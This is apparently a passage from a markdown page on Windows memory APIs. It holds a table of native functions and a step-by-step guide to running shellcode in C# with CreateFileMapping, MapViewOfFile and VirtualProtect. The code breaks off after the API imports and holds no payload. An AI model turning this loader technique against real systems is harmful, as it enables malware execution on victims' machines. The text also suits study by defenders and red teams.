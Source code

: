 | `ZwProtectVirtualMemory` | `ProcessHandle, BaseAddress, RegionSize, NewAccessProtection, OldAccessProtection`                                                                                                    | `VirtualProtect`          | `lpAddress, dwSize, flNewProtect, lpflOldProtect`                           |
| `RtlAllocateHeap`        | `HeapHandle, Flags, Size`                                                                                                                                                             | `VirtualAlloc`            | `lpAddress, dwSize, flAllocationType, flProtect`                            |
| `RtlFreeHeap`            | `HeapHandle, Flags, HeapBase`                                                                                                                                                         | `VirtualProtect`          | `lpAddress, dwSize, flNewProtect, lpflOldProtect`                           |

### Explanation:
- **Calling Function**: The higher-level API or routine that typically triggers the lower-level memory management or allocation APIs.
- **Arguments**: The typical arguments passed to these functions, which might include handles, sizes, flags, and addresses.
- **Called API**: The specific memory management API that is invoked by the higher-level function.
- **Arguments**: The typical arguments passed to the memory management API, often to allocate, protect, or map memory.

This table outlines the relationship between higher-level APIs (often used in application code) and lower-level memory management APIs (like those that handle virtual memory or process manipulation).


## MapViewofFile

Executing shellcode using `MapViewOfFile` combined with `VirtualProtect` is an advanced technique that can be used for running code in a region of memory that has been marked as executable. Here's a step-by-step explanation of how you can achieve this in C#, followed by a complete example.

### Overview of the Process

1. **Create a Memory-Mapped File:**
   - Use `CreateFileMapping` to create a memory-mapped file, which will allocate a region of memory.

2. **Map the View of the File:**
   - Use `MapViewOfFile` to map the memory-mapped file into the address space of the calling process.

3. **Copy the Shellcode:**
   - Copy your shellcode into the memory-mapped region.

4. **Change Memory Permissions:**
   - Use `VirtualProtect` to change the memory permissions of the region to be executable.

5. **Execute the Shellcode:**
   - Finally, execute the shellcode by creating a delegate and invoking it.

### Complete C# Example

Here’s how you can implement this process in C#:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.IO;
using Microsoft.Win32.SafeHandles;

class Program
{
    // Import necessary Windows API functions
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateFileMapping(
        IntPtr hFile,
        IntPtr lpFileMappingAttributes,
        uint flProtect,
        uint dwMaximumSizeHigh,
        uint dwMaximumSizeLow,
        string lpName);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr MapViewOfFile(
```